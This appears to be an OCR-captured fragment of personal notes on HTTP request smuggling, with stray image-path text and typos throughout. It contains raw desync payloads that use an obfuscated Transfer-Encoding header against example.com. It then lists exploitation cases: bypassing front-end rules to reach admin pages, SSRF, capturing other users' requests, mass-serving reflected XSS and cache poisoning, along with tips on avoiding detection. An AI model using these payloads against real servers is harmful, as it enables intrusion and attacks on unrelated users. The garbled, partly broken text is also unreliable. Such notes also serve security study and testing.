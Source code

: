 11
=x&q=smuggling&x=
0


GET /404 HTTP/1.1
X: X
```

```
POST /search HTTP/1.1		# Trigger
Host: example.com
```


```
POST /search HTTP/1.1
Content-Length: 4
Transfer-Encoding: zchunked

96
GET /404 HTTP/1.1
X: X=1&q=smugging&x=
HOST: example.com
Content-Length: 100

x=
0
```

```
POST /search HTTP/1.1 			# Trigger
Host: example.com
```

Crucial these two request are not sent over the same connection to the front end server - you 'l get false positives
Endpoint is important - backend will reject and close connection to front and poison section in the first request will be drop
These are non detirministic - anyone else request interrupts it will fail, even if they arent any other user's browsing it they may have pool on the backend at may require multiple attempts.


### Exploitation Case Studies

Bypassing rules - Request admin page then root webpage, backend sends the admin panel.

Bypassing rewrite - 100% you know it vulnerable, but timeout and traffic is so you have no chance to desync: Blind request smuggling - unique host name

(Custom application Headers): Request reflection - Shuffle parameters + put custom header last; concatenation occurs with second request.
- Then you get SSRF over HTTP Request Smuggling

Involuntary request storage - if application has persistent text storing data then HTTP Request Smuggling you get random user control

Harmful responses - With reflected xss you can then with HTTP RS serve the reflected xss on mass

Cache Poisoning - This can be dangerous to the hacker - storing your ip that then get hit over over and over again after HTTP RS back you...lol 
Web Cache Deception, but random user, attacker has no control of API key will end up somewhere on the static resources on website
- Avoid with
	- Anticaching header
	- Try as fast as possible
	- Geolocation that is asleep
```